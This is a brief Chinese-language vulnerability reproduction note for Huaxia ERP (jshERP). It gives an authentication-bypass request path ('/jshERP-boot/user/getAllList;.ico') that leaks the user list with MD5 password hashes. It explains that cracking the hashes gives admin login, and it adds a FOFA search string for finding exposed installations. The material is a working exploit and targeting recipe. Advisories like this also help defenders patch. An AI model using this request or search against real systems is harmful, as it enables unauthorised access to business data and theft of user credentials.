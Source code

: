 #### 影响范围

华夏ERP

#### 漏洞概述

华夏ERP基于SpringBoot框架、SaaS模式，立志为中小企业提供开源好用的ERP软件，目前专注进销存+财务功能。华夏ERP系统存在敏感信息漏洞，攻击者可利用该漏洞获取敏感信息

#### 漏洞复现

漏洞数据包：

```
/jshERP-boot/user/getAllList;.ico 
```

![EHR](img/EHR.png)

密码是md5加密的，解密后即可登录后台

![md5](img/md5.png)

使用账户密码登录：

![login](img/login.png)

#### 资产测绘

FOFA：

```
"jshERP-boot"
```





